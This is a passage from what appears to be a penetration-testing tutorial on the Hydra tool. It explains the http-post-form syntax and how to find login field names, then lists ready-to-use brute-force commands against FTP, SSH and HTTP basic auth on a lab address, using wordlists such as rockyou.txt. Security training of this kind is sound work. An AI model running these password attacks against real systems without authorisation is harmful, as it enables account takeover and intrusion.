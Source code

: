 **Components Explained:**
1. **Path:** `/login` - The URL path where the login form submits
2. **POST Data:** `username=^USER^&password=^PASS^`
   - `^USER^` and `^PASS^` are Hydra placeholders
   - These correspond to the actual HTML form field names
3. **Error Condition:** `F=Your username or password is incorrect.`
   - `F=` means "failure string" - Hydra looks for this text to identify failed attempts
   - Alternative: `S=` for "success string" (what appears on successful login)

### Finding Form Field Names
To use Hydra effectively, you need to inspect the HTML form:

```html
<!-- Example Login Form -->
<form action="/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```

**Key elements to identify:**
- `action="/login"` → This gives you the path
- `name="username"` and `name="password"` → These become `^USER^` and `^PASS^`

## Protocol-Specific Examples

### FTP Attack
```bash
# Basic FTP brute force
hydra -L users.txt -P passwords.txt ftp://10.10.10.10

# Specific port and output file
hydra -l admin -P rockyou.txt ftp://10.10.10.10:2121 -o results.txt -t 4
```

### SSH Attack
```bash
# SSH with username list
hydra -L users.txt -P passwords.txt ssh://10.10.10.10

# Single user, specific port
hydra -l root -P passwords.txt ssh://10.10.10.10:2222 -t 4
```

### HTTP Basic Auth
```bash
# HTTP basic authentication
hydra -L users.txt -P passwords.txt http-get://10.10.10.10/private

# With specific port
hydra -l admin -P rockyou.txt http-get://10.10.10.10:8080/admin
```
